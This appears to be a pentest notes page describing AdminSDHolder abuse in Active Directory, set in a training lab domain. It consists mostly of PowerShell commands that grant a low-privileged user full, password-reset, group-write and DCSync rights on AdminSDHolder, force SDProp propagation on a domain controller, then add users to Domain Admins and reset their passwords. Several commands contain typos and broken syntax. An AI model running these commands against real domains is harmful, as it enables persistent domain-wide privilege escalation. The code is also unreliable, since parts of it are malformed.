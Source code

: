# AdminSDHolder

AdminSDHolder is a system container that used to control permissions.\
These permissions are used as a template for protected accounts to prevent modifications to them. \\

**Security Descriptor Propagator** (SDPROP) runs every 60 minutes.\
SDPROP compares between the ACL of the protected groups and members and the ACL of **AdminSDHolder**, then any differences are overwritten on the ACL Object.

## Exploitation

An attacker can utilize SDROP mechinsem by adding a user with GenericAll privileges\
to theAdminSD Holder object. When the SDPROP runs (every 60 minutes) the user will be add with elevated privileges. Adding user to the AdminSDHolder object.

{% code overflow="wrap" %}
```powershell
# Full privs
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Reset Password priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Write Members priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# DC Sync priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
{% endcode %}

Use tool called [RACE ](https://github.com/samratashok/RACE)to add the privileges easily through commandline.

Run SDProp mannually. If GUI access is availabe, the above privileges can be added easily through GUI.

## Propagate Manually

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# pre-Server 2008 machines
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

```powershell
# OR it can be used like below
$sess = New-PSSession -Computername dcorp-dc
Invoke-Comamnd -Session $sess -FilePath C:\AD\Tools\Invoke-SDPropagator.ps1
Invoke-Command -ScriptBlock{Invoke-SDPropagator -showProgress -Verbose -timeoutMinutes 1} -Session $sess
```

### Verify Propagation

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | For-Each-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Cpnvert-SidToName $_.SecurityIdentifier);$_)} | ?{$_.IdentityName -match "studentxx"}
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=lcoal').Access | ?{$_.IdentityReference -match 'studentxx'}
```
{% endtab %}
{% endtabs %}

## Abusing rights

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Add user to DA group
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Reset Password
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
# Add user to DA group
Add-ADGroupMember -Identity 'Domain Admins' -Members testda

# Reset Password
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}
{% endtabs %}
